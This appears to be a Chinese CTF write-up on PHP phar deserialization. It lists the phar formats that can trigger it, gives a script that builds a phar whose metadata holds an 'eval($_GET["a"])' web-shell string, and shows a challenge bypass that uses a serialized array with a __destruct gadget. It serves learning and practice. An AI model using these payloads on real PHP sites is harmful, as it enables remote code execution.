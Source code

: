 一共就这5种可以触发phar的操作

> 普通phar
> gzip
> bzip2
> tar
> zip

php生成phar
```php
<?php
class Testobj
{
  var $output='';
}

@unlink('test.phar');   //删除之前的test.par文件(如果有)
$phar=new Phar('test.phar');  //创建一个phar对象，文件名必须以phar为后缀
$phar->startBuffering();  //开始写文件
$phar->setStub('<?php __HALT_COMPILER(); ?>');  //写入stub
$o=new Testobj();  
$o->output='eval($_GET["a"]);';  
$phar->setMetadata($o);//写入meta-data
$phar->addFromString("test.txt","test");  //添加要压缩的文件
$phar->stopBuffering();
?>
```

## 第三关 `throw new Error('那么就从这里开始吧');`

https://www.php.net/manual/zh/phar.fileformat.php

```php
<?php
class getflag{
    function __destruct() {
        echo 123;
    }
}

file_get_contents('phar//xen.phar');
```
cmd执行, 是可以输出123的。

`php /User/exp/2.php`

对应本题

```php
<?php
class getflag{
}
$a= new getflag();
$c = [$a];
echo serialize($c);
file_put_contents('.phar/.metadata', serialize($c));
```
得到 `a:1:{i:0;O:7:"getflag":0:{}}` , 通过第一关的学习。将元素1重新赋值为null，由于反序列化是从左到右的。立即可执行反序列化，不会直接throw。
